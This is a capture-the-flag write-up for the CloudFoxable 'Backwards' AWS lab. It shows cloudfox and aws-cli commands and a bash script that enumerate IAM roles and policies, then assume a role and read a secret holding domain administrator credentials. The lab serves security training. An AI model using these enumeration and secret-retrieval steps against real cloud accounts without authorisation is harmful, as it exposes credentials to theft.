







# CloudFoxable - Backwards

Challenge link: https://cloudfoxable.bishopfox.com/challenges#Backwards-9



## Using cloudfox

Because we don't know what role will interact with that resource of starting point, we just need to list all policy and grep:

```
cloudfox aws -p cloudfoxable permissions | grep secret
```



Ahha we know there is a role called **`Alexander-Arnold`** which allow action **`secretsmanager:GetSecretValue`** on resource as described on starting point. Let's add our new profile to config so we can use then:

```
[profile arnold]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Alexander-Arnold
source_profile = cloudfoxable
```



Now let's read the secret with secret id is that arn value (you can take name too) and with profile **`arnold`** we have just added:

```
aws --profile arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:211125736697:secret:DomainAdministrator-Credentials-iPf3PT
```



## Using aws-cli

This challenge doesn't give us IAM Role but something seems like a resource, our job is to find out which role interact with this resource. First, we need to list all role that this account has:

```
aws --profile cloudfoxable iam list-roles
```

With each role listed, we will need to check policy of each role:

```
aws --profile cloudfoxable iam list-attached-role-policies --role-name <ROLE_NAME>
```

Each policy has its arn, and with each policy we will need to get version then action and resource of policy:

```
aws --profile cloudfoxable iam get-policy --policy-arn <POLICY_ARN>
aws --profile cloudfoxable iam get-policy-version --policy-arn <POLICY_ARN> --version-id <VERSION_ID>
```

Phew, that seems too much work to do. So I decided to write a small script to loop all policy and list the resource of policy:

```bash
#!/bin/bash

roles=`aws --profile cloudfoxable iam list-roles`
res=`echo $roles | jq .[][1].RoleName`

for i in $(seq 0 $((`echo $roles | jq .[] | jq length`-1)))
do
    role_name=`echo $roles | jq -r .[][$i].RoleName`
    echo "[*] Role: $role_name"

    policies=$(aws --profile cloudfoxable iam list-attached-role-policies --role-name $role_name)
    for j in $(seq 0 $((`echo $policies | jq .AttachedPolicies | jq length`-1)))
    do
        policy_name=`echo $policies | jq -r .AttachedPolicies[$j].PolicyName`
        policy_arn=`echo $policies | jq -r .AttachedPolicies[$j].PolicyArn`
        policy_version=`aws --profile cloudfoxable iam get-policy --policy-arn $policy_arn | jq -r .Policy.DefaultVersionId`
        policy_statement=`aws --profile cloudfoxable iam get-policy-version --policy-arn $policy_arn --version-id $policy_version | jq -r .PolicyVersion.Document.Statement`
        echo "    - Name: $policy_name"
        echo "    - Arn: $policy_arn"
        echo "    - Version: $policy_version"
        echo "    - Statement: "
        echo "$policy_statement"
    done
    echo -------------------------
done
```

With the second role **`Alexander-Arnold`**, we can see the resource that is similar to resource of starting point in the description:



So we know that role might have something interesting. Let's add that role to config file so we can use later:


With the resource we found about **`Alexander-Arnold`**, look at **`Action`**, we can see that we can **`GetSecretValue`** of **`secretmanager`** so let's list all secret we have:

```
$ aws --profile cloudfoxable secretsmanager list-secrets
```



This arn is similar to the arn we got from role **`Alexander-Arnold`** so this is the secret we want! Let's read this newly profile `arnold` we have just added:

```
aws --profile arnold secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials
```



# Reference

https://medium.com/@cybersecshashi/cloudfoxable-backwards-2fc6d6088bb7